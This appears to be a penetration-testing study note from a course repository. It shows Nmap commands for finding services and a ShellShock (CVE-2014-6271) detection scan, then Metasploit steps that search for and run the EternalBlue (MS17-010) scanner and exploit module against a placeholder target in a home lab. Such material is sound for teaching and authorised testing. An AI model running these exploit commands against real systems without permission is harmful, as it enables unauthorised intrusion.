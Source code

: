 Scripts are written using the **Lua** programming language.

Nmap script default directory is:

- `/usr/share/nmap/scripts`

```bash
ls -al /usr/share/nmap/scripts | grep <keyword>
```

> 🔬 Check the [Bash - ShellShock Lab here](../hostnetwork-penetration-testing/1-system-attack/linux-attacks/bash-shell.md)

Some useful commands and `nmap` script scan from the lab environment:

```bash
nmap -sV -O <TARGET_IP>
	80/tcp open  http  Apache httpd 2.4.6 ((Unix))
```

```bash
nmap -sV -p 80 --script=http-enum <TARGET_IP>

ls -al /usr/share/nmap/scripts | grep shellshock

nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <TARGET_IP>

# Vulnerable to the CVE-2014-6271
```

### [Metasploit](3-metasploit.md)

Focus on the techniques and the flow to detect vulnerabilities.

> 🔬 Home Lab based on a Windows 7/2008 R2 target vulnerable to EternalBlue SMB RCE. Check the [Lab 2 here](../hostnetwork-penetration-testing/1-system-attack/windows-attacks/smb-psexec.md)

```bash
sudo nmap -sS -sV <TARGET_IP>
```

```bash
searchsploit EternalBlue
searchsploit ms17-010
```

```bash
# Check the vulnerability with a scanner, before trying to exploit it
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <TARGET_IP>
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run
```
